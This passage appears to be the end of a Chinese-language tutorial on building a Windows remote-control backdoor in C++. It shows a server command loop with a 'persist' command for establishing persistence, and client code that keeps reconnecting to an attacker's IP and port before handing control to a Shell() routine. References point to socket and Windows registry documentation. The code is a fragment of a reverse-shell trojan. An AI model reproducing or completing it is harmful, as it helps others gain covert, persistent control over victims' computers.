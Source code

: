 ```cpp
		break;
		}
	else if (strncmp("persist",buffer,7) ==0 ) { //建立持久化
		recv(client_socket, response, sizeof(response), 0);
		printf("%S", response);
		}
	else {                              //接收
		recv(client_socket, response, sizeof(response), MSG_WAITALL);
		printf("%S", response);
		}
}
// client端

sock = socket(AF_INET, SOCK_STREAM, 0);
memset(&servaddr, 0, sizeof(servaddr));//填充0
servaddr.sin_family = AF_INET;
servaddr.sin_addr.s_addr = inet_addr(servip); //server的ip
servaddr.sin_port = htons(servport); //指定的port
start:
while (connect(sock, (struct sockaddr *) &servaddr, sizeof(servaddr)) != 0) { //嘗試連接(如果成功返回0)
	Sleep(10);
	MessageBox(NULL, L"no connect", L"connect", MB_OK);
	goto start;
	}
Shell(); //我們要控制的程式

```

## Reference

1. [https://dangerlover9403.pixnet.net/blog/post/212391408-[教學]c++-socket資料整理](https://dangerlover9403.pixnet.net/blog/post/212391408-%5B%E6%95%99%E5%AD%B8%5Dc++-socket%E8%B3%87%E6%96%99%E6%95%B4%E7%90%86)
2. [https://www.youtube.com/watch?v=6Dc8i1NQhCM&t=4973s](https://www.youtube.com/watch?v=6Dc8i1NQhCM&t=4973s)
3. [https://docs.microsoft.com/en-us/windows/win32/sysinfo/registry-functions](https://docs.microsoft.com/en-us/windows/win32/sysinfo/registry-functions)